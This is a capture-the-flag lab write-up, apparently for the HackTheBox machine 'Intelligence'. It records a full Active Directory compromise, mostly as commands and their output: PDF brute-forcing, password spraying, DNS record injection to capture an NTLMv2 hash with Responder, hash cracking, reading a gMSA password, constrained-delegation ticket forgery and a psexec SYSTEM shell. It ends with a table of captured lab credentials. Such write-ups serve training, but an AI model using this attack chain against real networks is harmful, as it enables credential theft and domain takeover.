

## Entry

Lets start with `netexec` and create a /etc/hosts file and start nmap scan directly.

```bash
➜  Intelligence nxc smb 10.10.10.248
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
➜  Intelligence sudo nxc smb 10.10.10.248 --generate-hosts-file /etc/hosts
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
➜  Intelligence cat /etc/hosts
[SNIP]
10.10.10.248     DC.intelligence.htb intelligence.htb DC
```

and lets start nmap scan.

```bash
nmap -sC -sV -Pn 10.10.10.248 -vv
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Intelligence
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-10 14:45:34Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
```

okey the fun fact we have web server on port **80** but lets check if we have Guest access first on smb shares etc.

```bash
➜  Intelligence nxc smb DC.intelligence.htb -u '' -p '' 
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.248    445    DC               [+] intelligence.htb\: 
➜  Intelligence nxc smb DC.intelligence.htb -u '' -p ''  --shares
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False) 
SMB         10.10.10.248    445    DC               [+] intelligence.htb\: 
SMB         10.10.10.248    445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED
➜  Intelligence nxc smb DC.intelligence.htb -u 'Guest' -p ''  --shares
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False) 
SMB         10.10.10.248    445    DC               [-] intelligence.htb\Guest: STATUS_ACCOUNT_DISABLED 
```

and we have no access yet.

### Web Server


okey its seems like default page i dont know what we can look that but for some target explore we can use `Burp Suite` 



okey and those are relly interesting.


i think we can extract more data here with pdf flies lets search them. let me try to script python for this.

```bash
import requests
from datetime import datetime, timedelta
import os

# Base URL
base_url = "http://10.10.10.248/documents/"

# Start and end dates for brute-force
start_date = datetime(2020, 1, 1)
end_date = datetime(2020, 12, 31)  # adjust as needed

# Output folder
os.makedirs("pdfs", exist_ok=True)

# Iterate through each date
current_date = start_date
while current_date <= end_date:
    filename = f"{current_date.strftime('%Y-%m-%d')}-upload.pdf"
    full_url = base_url + filename
    print(f"[*] Trying: {full_url}")

    try:
        response = requests.get(full_url, timeout=5)
        if response.status_code == 200:
            path = f"pdfs/{filename}"
            with open(path, "wb") as f:
                f.write(response.content)
                print(f"[+] Found and saved: {path}")
        else:
            print(f"[-] Not found: {filename}")
    except Exception as e:
        print(f"[!] Error for {filename}: {e}")

    current_date += timedelta(days=1)
```

and we can now get all files.

```bash
➜  Intelligence python3 pdfsearch.py 
[*] Trying: http://10.10.10.248/documents/2020-01-01-upload.pdf
[+] Found and saved: pdfs/2020-01-01-upload.pdf
[*] Trying: http://10.10.10.248/documents/2020-01-02-upload.pdf
[+] Found and saved: pdfs/2020-01-02-upload.pdf
[*] Trying: http://10.10.10.248/documents/2020-01-03-upload.pdf
[-] Not found: 2020-01-03-upload.pdf
```

lets see if we can find some usernames inside i will use `exiftool`  for this.


okey its seems like we can extract usernames here.

```bash
➜  pdfs exiftool *-upload.pdf | grep -i "Creator" | awk '{print $3}' > users.txt
➜  pdfs cat users.txt 
William.Lee
Scott.Scott
Jason.Wright
Veronica.Patel
Jennifer.Thomas
Danny.Matthews
David.Reed
Stephanie.Young
[SNIP]
```

okey  lets check them if they are exist.


and yeah they are lets try if some user using his username as his password.

```bash
nxc smb DC.intelligence.htb -u users.txt -p users.txt --continue-on-success --no-bruteforc
```

but no success lets try `ASREProasting` 

```bash
➜  Intelligence nxc ldap DC.intelligence.htb -u users.txt -p '' --asreproast a.txt                      
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
```

okey so we have to extract password somewher so lets check out pdf files again i will change then with txt file and read it more healthty

```bash
➜  pdfs for f in *.pdf; do echo -e "\n--- $f ---\n" >> all_pdfs_combined.txt pdftotext "$f" - >> all_pdfs_combined.txt done
```


lets check


nice we got our first pass `NewIntelligenceCorpUser9876` let do password spray

```bash
➜  Intelligence nxc smb DC.intelligence.htb -u users.txt -p 'NewIntelligenceCorpUser9876' --continue-on-success
SMB         10.10.10.248    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:intelligence.htb) (signing:True) (SMBv1:False) 
[SNIP]
SMB         10.10.10.248    445    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876
```

now i will check `--user` module to extract username list again.

```bash
nxc smb DC.intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' --users
```

```bash
➜  Intelligence cat nxcusers.txt | awk '{print $5}' > users.txt
➜  Intelligence cat users.txt 
Danny.Matthews
Jose.Williams
Jason.Wright
Samuel.Richardson
David.Mcbride
```

okey its only work for Tiffany lets try on LDAP and lets see if we can dump BH data.

```bash
➜  Intelligence nxc ldap DC.intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' 
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAP        10.10.10.248    389    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
➜  Intelligence nxc ldap DC.intelligence.htb -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876'  --bloodhound --dns-server 10.10.10.248 --collection All
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAP        10.10.10.248    389    DC               [+] intelligence.htb\Tiffany.Molina:NewIntelligenceCorpUser9876 
LDAP        10.10.10.248    389    DC               Resolved collection methods: dcom, psremote, container, localadmin, objectprops, session, trusts, rdp, group, acl
LDAP        10.10.10.248    389    DC               Done in 00M 18S
LDAP        10.10.10.248    389    DC               Compressing output into /home/elliot/.nxc/logs/DC_10.10.10.248_2025-07-10_055500_bloodhound.zip
```


okey nothing interesting yet lets check shares.

### Grab NTLM hash with Malicious DNS (DNS Poising)


instead of using `spider_plus` module im gonna use smbclienng at this sitation

```bash
smbclientng -u Tiffany.Molina -p 'NewIntelligenceCorpUser9876' --host DC.intelligence.htb
```


here is different things u can see `bat` command.

Okey we can grab his cache btw let me see first.

**NTLM Hash Capture via DNS Record Injection**

Used `dnstool.py` to add a fake DNS A record pointing to my machine:

```bash
python3 dnstool.py -u 'INTELLIGENCE\\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -a add -r 'webabc' -d 10.10.14.36 10.10.10.248
```

or with

```bash
python3 krbrelayx/dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p NewIntelligenceCorpUser9876 -a add -t A -d 10.10.14.36 -r iremirem.intelligence.htb 10.10.10.248
```

Then started Responder to capture NTLM hash:

```bash
sudo responder -I tun0
```

Ted's scheduled PowerShell job triggered a request to `webabc.intelligence.htb`, leaking his NTLMv2 hash to my listener.(after waiting around 5 minutes)


lets crack it

```bash
➜  Intelligence john teg.graves_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Mr.Teddy         (Ted.Graves) 
```

### ReadGMSA

Nice lets see what Mr.Teddy can do???


okey lets do this

```bash
➜  Intelligence nxc ldap DC.intelligence.htb -u Ted.Graves -p 'Mr.Teddy'  --gmsa                            
LDAP        10.10.10.248    389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:intelligence.htb)
LDAPS       10.10.10.248    636    DC               [+] intelligence.htb\Ted.Graves:Mr.Teddy 
LDAPS       10.10.10.248    636    DC               [*] Getting GMSA Passwords
LDAPS       10.10.10.248    636    DC               Account: svc_int$             NTLM: 9db7142ffb1a5550533f64941ac4a37b     PrincipalsAllowedToReadPassword: ['DC$', 'itsupport']
```

nice lets see what svc_init can do

### Constrained Delegation (AllowedToDelegate)


we can delegate DC directly tho.

```bash
findDelegation.py  intelligence.htb/svc_int$ -hashes :9db7142ffb1a5550533f64941ac4a37b 
```


So we have to use `WWW/dc.intelligence.htb`  and lets do this shit

```bash
faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" getST.py -spn 'WWW/dc.intelligence.htb' -impersonate 'Administrator' -altservice 'cifs' -hashes :9db7142ffb1a5550533f64941ac4a37b 'intelligence.htb/svc_int'
```


and BAMMMM we done!!!

```bash
➜  Intelligence faketime "$(ntpdate -q intelligence.htb | cut -d ' ' -f 1,2)" psexec.py intelligence.htb/administrator@dc.intelligence.htb -k -no-pass                       
/usr/local/bin/psexec.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'psexec.py')
Impacket v0.13.0.dev0+20250523.184829.f2f2b367 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on dc.intelligence.htb.....
[*] Found writable share ADMIN$
[*] Uploading file kLLUvniE.exe
[*] Opening SVCManager on dc.intelligence.htb.....
[*] Creating service OXrF on dc.intelligence.htb.....
[*] Starting service OXrF.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1879]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

okey.

## Creds

| username | password / hash | work at  | from | priveilges |
| --- | --- | --- | --- | --- |
| Tiffany.Molina | NewIntelligenceCorpUser9876 | smb, LDAP | PDF | read smb shares |
| Ted.Graves | Mr.Teddy | LDAP | DNS poising | readGMSA |
| svc_int | 9db7142ffb1a5550533f64941ac4a37b | LDAP | readGMSA | Constrained Delegation |
